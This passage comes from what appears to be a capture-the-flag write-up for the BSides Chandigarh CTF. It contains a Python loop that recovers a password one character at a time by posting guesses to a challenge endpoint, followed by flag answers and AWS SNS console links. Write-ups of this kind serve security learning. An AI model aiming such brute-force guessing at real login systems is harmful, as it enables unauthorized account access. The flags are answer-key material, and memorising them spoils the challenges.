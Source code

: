 ```python
        print("Testing for ",char)
        payload = {'password': password + char}
        print(payload)
        response = requests.post(url, headers=headers, data=payload)
        print(response.text)
        
        if 'hogwarts' in response.text:
            password += char
            print(f"Password: {password}")

```
> In the code above please remove the `\` before and after the parantheses in the line `password=` i had to add them there because of double parantheses rendering issues.
{: .prompt-warning }

![Untitled](/assets/img/Bsides%20Chandigarh%20CTF%20a7731956d23c48518d7b48958789f1ea/Untitled%2015.png)

At this point it started iteration again, and again which meant that we had found all the characters all that was left was to add the remaining `‘}}’`

`Password: crac{ {hohch0c73747d0e0e0wwissag} }`

**(Remove The Spaces, i added them to prevent jekyll from causing erros)**

`flag: CRAC{hohch0c73747d0e0e0wwissag}`

## Challenge 7: FlowLogs

This was quite easy just identify the ip from the logs based on the massive accepts and reject

`CRAC{172.31.32.37}`

## Challenge 8: Followme

Based on the given text i was able to formulate a url 

[https://console.aws.amazon.com/sns/v3/home?region=ap-south-1#/topic/arn:aws:sns:ap-south-1:666793061326:unlockv1](https://console.aws.amazon.com/sns/v3/home?region=ap-south-1#/topic/arn:aws:sns:ap-south-1:666793061326:unlockv1)

Then i realised i had to create a subscription to get an email or a text, so i used management console to do so

[https://ap-south-1.console.aws.amazon.com/sns/v3/home?region=ap-south-1#/subscriptions](https://ap-south-1.console.aws.amazon.com/sns/v3/home?region=ap-south-1#/subscriptions)
